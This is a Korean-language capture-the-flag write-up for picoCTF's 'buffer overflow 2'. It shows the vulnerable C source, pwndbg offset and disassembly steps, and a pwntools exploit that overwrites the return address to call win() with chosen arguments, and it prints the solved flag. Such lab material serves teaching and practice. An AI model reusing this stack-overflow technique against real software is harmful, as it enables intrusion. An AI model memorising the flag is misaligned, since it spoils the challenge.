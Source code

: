 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. 32비트 환경
2. win(0xCAFEF00D, 0xF00DF00D) 호출 -> FLAG 출력
3. gets(buf) 호출 -> 버퍼오버플로우 발생
4. Partial RELRO, No canary, No PIE
```
취합된 정보를 토대로 공격 과정을 정리하면, `gets()`는 입력 값의 길이를 검증하지 않기 때문에 스택 버퍼오버플로우가 발생하며, 해당 바이너리에는 canary가 적용되어 있지 않습니다. 따라서 해당 취약점으로 리턴 주소를 win()의 주소로 덮고, 인자를 요구하는 값으로 설정하면 FLAG가 출력될 것입니다.
<br />
<br />

## 1. 오프셋 구하기
```yaml
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
중복되지 않는 무작위 값을 생성합니다.
```yaml
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
```
무작위 값을 입력하고, `c`를 하여 오류가 발생하도록 합니다.
```yaml
pwndbg> i r eip
eip            0x62616164          0x62616164
```
이후 해당 명령어로 eip에 저장된 값을 확인합니다. eip에 저장된 값은 `0x62616164`이며, 해당 값을 추적하여 버퍼 시작점부터 리턴 주소까지의 오프셋을 알아낼 수 있습니다.
```yaml
pwndbg> cyclic -l 0x62616164
Finding cyclic pattern of 4 bytes: b'daab' (hex: 0x64616162)
Found at offset 112
```
오프셋은 112 입니다.

> [!NOTE]
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
pwndbg> x/60i win
   0x8049296 <win>:     endbr32
   0x804929a <win+4>:   push   ebp
   0x804929b <win+5>:   mov    ebp,esp
   0x804929d <win+7>:   push   ebx
   0x804929e <win+8>:   sub    esp,0x54
...
   0x8049303 <win+109>: push   eax
   0x8049304 <win+110>: call   0x8049100 <fgets@plt>
   0x8049309 <win+115>: add    esp,0x10
=> 0x804930c <win+118>: cmp    DWORD PTR [ebp+0x8],0xcafef00d
   0x8049313 <win+125>: jne    0x804932f <win+153>
   0x8049315 <win+127>: cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x804931c <win+134>: jne    0x8049332 <win+156>
...
```
위 결과로 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
<br />

# FLAG
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
